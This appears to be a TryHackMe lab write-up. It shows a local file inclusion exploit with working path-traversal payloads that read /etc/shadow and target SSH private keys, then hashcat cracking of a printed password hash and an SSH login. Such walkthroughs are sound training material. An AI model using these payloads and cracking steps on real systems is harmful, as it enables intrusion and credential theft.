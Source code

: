 # TryHackMe: Advent of Cyber, LFI

## LFI vulnerability

After browsing the homepade's source code, I found a Javascript excerpt at the bottom of the page.

```javascript
function getNote(note, id) {
    const url = '/get-file/' + note.replace(/\//g, '%2f')
    $.getJSON(url,  function(data) {
        document.querySelector(id).innerHTML = 
            data.info.replace(/(?:\r\n|\r|\n)/g,'<br>');
    })
}
// getNote('server.js', '#note-1')
getNote('views/notes/note1.txt', '#note-1')
getNote('views/notes/note2.txt', '#note-2')
getNote('views/notes/note3.txt', '#note-3') 
```

The function `getNote()` fires a `$.getJSON` request to the server, on url `/get-file/filenamehere`.

This can be exploited.

## LFI Exploitation

Firstly I tested that the file's would switch; and fired off the following from my browser's console.

```js
getNote('views/notes/note3.txt','#note-1')
```

And found that `#note-1`'s content changed. I think slowly LFId my way to the `/etc/shadow` file with the following command.

```js
getNote('views/notes/../../../../../etc/shadow', '#note-1')
```

This eventually returned...

```
root:*:18152:0:99999:7:::
daemon:*:18152:0:99999:7:::
bin:*:18152:0:99999:7:::
sys:*:18152:0:99999:7:::
sync:*:18152:0:99999:7:::
games:*:18152:0:99999:7:::
man:*:18152:0:99999:7:::
lp:*:18152:0:99999:7:::
mail:*:18152:0:99999:7:::
news:*:18152:0:99999:7:::
uucp:*:18152:0:99999:7:::
proxy:*:18152:0:99999:7:::
www-data:*:18152:0:99999:7:::
backup:*:18152:0:99999:7:::
list:*:18152:0:99999:7:::
irc:*:18152:0:99999:7:::
gnats:*:18152:0:99999:7:::
nobody:*:18152:0:99999:7:::
systemd-timesync:*:18152:0:99999:7:::
systemd-network:*:18152:0:99999:7:::
systemd-resolve:*:18152:0:99999:7:::
systemd-bus-proxy:*:18152:0:99999:7:::
syslog:*:18152:0:99999:7:::
_apt:*:18152:0:99999:7:::
lxd:*:18152:0:99999:7:::
messagebus:*:18152:0:99999:7:::
uuidd:*:18152:0:99999:7:::
dnsmasq:*:18152:0:99999:7:::
sshd:*:18152:0:99999:7:::
pollinate:*:18152:0:99999:7:::
ubuntu:!:18243:0:99999:7:::
charlie:$6$oHymLspP$wTqsTmpPkz.u/CQDbheQjwwjyYoVN2rOm6CDu0KDeq8mN4pqzuna7OX.LPdDPCkPj7O9TB0rvWfCzpEkGOyhL.:18243:0:99999:7:::
```

## Attempted Looting

### SSH keys

We know that `charlie` and `ubuntu` are two potentially exploitable users. They could have SSH keys. 

```js
getNote('views/notes/../../../../../home/charlie/.ssh/id_rsa', '#note-1');
getNote('views/notes/../../../../../home/ubuntu/.ssh/id_rsa', '#note-2');
```

Though we get no response here; perhaps we don't have the appropriate permissions.

## Cracking `charlie`s password

We'll use `hashcat` for this.

```console
hashcat -a 0 -m 0 $6$oHymLspP$wTqsTmpPkz.u/CQDbheQjwwjyYoVN2rOm6CDu0KDeq8mN4pqzuna7OX.LPdDPCkPj7O9TB0rvWfCzpEkGOyhL. /usr/share/wordlists/fasttrack.txt
```

```console
kali@kali:~$ hashcat -a 0 -m 1800 '$6$oHymLspP$wTqsTmpPkz.u/CQDbheQjwwjyYoVN2rOm6CDu0KDeq8mN4pqzuna7OX.LPdDPCkPj7O9TB0rvWfCzpEkGOyhL.' /usr/share/wordlists/fasttrack.txt
hashcat (v6.1.1) starting...

OpenCL API (OpenCL 1.2 pocl 1.5, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-Intel(R) Core(TM) i5-4690K CPU @ 3.50GHz, 2890/2954 MB (1024 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt
* Uses-64-Bit   
                 
ATTENTION! Pure (unoptimized) backend kernels selected.                                                         
Using pure kernels enables cracking longer passwords but for the price of drastically reduced performance.      
If you want to switch to optimized backend kernels, append -O to your commandline.                              
See the above message to find out about the exact limits.    
                       
Watchdog: Hardware monitoring interface not found on your system.   

Watchdog: Temperature abort trigger disabled.  

Host memory required for this attack: 65 MB   

Dictionary cache hit:
* Filename..: /usr/share/wordlists/fasttrack.txt                                                                
* Passwords.: 222                 
* Bytes.....: 2006                 
* Keyspace..: 222      

$6$oHymLspP$wTqsTmpPkz.u/CQDbheQjwwjyYoVN2rOm6CDu0KDeq8mN4pqzuna7OX.LPdDPCkPj7O9TB0rvWfCzpEkGOyhL.:password1
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: sha512crypt $6$, SHA512 (Unix)
Hash.Target......: $6$oHymLspP$wTqsTmpPkz.u/CQDbheQjwwjyYoVN2rOm6CDu0K...GOyhL.
Time.Started.....: Fri Sep 18 16:56:51 2020 (0 secs)
Time.Estimated...: Fri Sep 18 16:56:51 2020 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/fasttrack.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     1029 H/s (10.50ms) @ Accel:32 Loops:512 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests
Progress.........: 128/222 (57.66%)
Rejected.........: 0/128 (0.00%)
Restore.Point....: 0/222 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:4608-5000
Candidates.#1....: Spring2017 -> god

Started: Fri Sep 18 16:56:47 2020
Stopped: Fri Sep 18 16:56:53 2020
```


## Trying to SSH into the box with our cracked credentials

We get shell!

```shell
kali@kali:~$ ssh charlie@10.10.190.17
The authenticity of host '10.10.190.17 (10.10.190.17)' can't be established.
ECDSA key fingerprint is SHA256:zTb8DQ+FkYzMQWHtrqJMlZKGR8HKhFTeSzpis26L+0s.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.190.17' (ECDSA) to the list of known hosts.
charlie@10.10.190.17's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-1092-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

65 packages can be updated.
32 updates are security updates.

Last login: Fri Dec 13 21:44:29 2019 from 10.8.11.98
charlie@ip-10-10-190-17:~$ 
```

## Looting `charlie`

### Flag1.txt
```
charlie@ip-10-10-190-17:~$ ls
flag1.txt
charlie@ip-10-10-190-17:~$ cat flag1.txt 
```

### Finding when Charlie is booking his holiday..

_Read note 3_ on the homepage.